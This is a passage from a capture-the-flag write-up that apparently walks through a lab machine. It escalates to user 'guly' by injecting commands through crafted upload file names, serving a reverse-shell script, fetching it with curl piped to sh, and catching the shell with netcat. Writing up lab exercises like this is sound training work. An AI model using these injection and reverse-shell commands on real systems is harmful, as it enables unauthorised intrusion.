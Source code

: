 To verify my assumption, I created a file named `` | touch hi_`whoami` ``. If the filename triggers the command, we'll be able to see a file named `hi_guly` at `/home/guly`.
```console
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ echo "" > ' | touch hi_`whoami`'
```
Wait for the 3rd minute...
```console
sh-4.2$ ls -l /home/guly
-rw-r--r--  1 guly guly     0 Nov 14 12:21 hi_guly
```
We have achieved command injection! Now we have to find a way to get access to a shell as `guly`.

First, I hosted `index.html` using Python's SimpleHTTPServer module. The reason I use the name `index.html` is because we are not allowed to store `/` or `\` as filenames. It just doesn't make sense. So visiting my web server without specifying the directory will show `index.html` by default.

In `index.html`:
```
#!/bin/sh
sh -i >& /dev/tcp/10.10.14.10/8888 0>&1
```
```console
$ python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now remove the previous payload for testing the code injection, the script will be stuck if we don't remove it.
```console
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ rm *
```

Then we create the payload:
```console
sh-4.2$ echo "" > '`curl 10.10.14.10 -o s.sh | sh s.sh`'
```

Setup the a listener and wait for the 3rd minute to come...
```console
$ nc -lnvp 8888
listening on [any] 8888 ...
```

After 3 minutes,
```console
$ nc -lnvp 8888                                                             
listening on [any] 8888 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.146] 50294
sh: no job control in this shell
sh-4.2$ whoami
whoami
guly
bash -i
bash: no job control in this shell
[guly@networked ~]$ 
```
